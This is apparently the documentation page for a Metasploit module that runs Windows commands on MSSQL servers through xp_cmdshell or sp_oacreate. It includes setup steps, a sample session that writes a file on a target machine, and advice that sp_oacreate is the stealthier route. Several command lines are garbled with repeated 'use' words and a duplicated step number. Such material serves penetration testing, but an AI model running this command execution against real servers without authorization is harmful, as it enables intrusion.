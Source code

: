 ## Description

This module will execute a Windows command on a MSSQL/MSDE instance via the xp_cmdshell (default) or the sp_oacreate procedure (more opsec safe, no output, no temporary data table). A valid username and password is required to use this module. The sp_oacreate function is used in metasploit to rebuild the xp_cmdshell stored procedure but can be used directly to get code execution which is the more opsec safe way.

## Verification Steps

1. Do: ```use use admin/mssql/mssql_exec```
2. Do: ```set USERNAME [username1]```
3. Do: ```set PASSWORD [password1]```
3. Do: ```set TECHNIQUE sp_oacreate``` (optional, default is xp_cmdshell)
4. Do: ```set RHOSTS [IP]```
5. Do: ```set CMD [command]```
6. Do: ```run```

## Scenarios

```
msf > use use use admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > set USERNAME username1
USERNAME => username1
msf auxiliary(mssql_exec) > set PASSWORD password1
PASSWORD => password1
msf auxiliary(mssql_exec) > set TECHNIQUE sp_oacreate
TECHNIQUE => sp_oacreate
msf auxiliary(mssql_exec) > set RHOST 192.168.1.195
RHOST => 192.168.1.195
msf auxiliary(mssql_exec) > set CMD cmd.exe /c echo OWNED > C:\owned.txt
CMD => cmd.exe /c echo OWNED > C:\owned.txt
msf auxiliary(mssql_exec) > run

[*] 192.168.1.195:1433 - Enable advanced options and ole automation procedures
[*] 192.168.1.195:1433 - Executing command using sp_oacreate
[*] Auxiliary module execution completed
msf auxiliary(mssql_exec_oacreate) >
```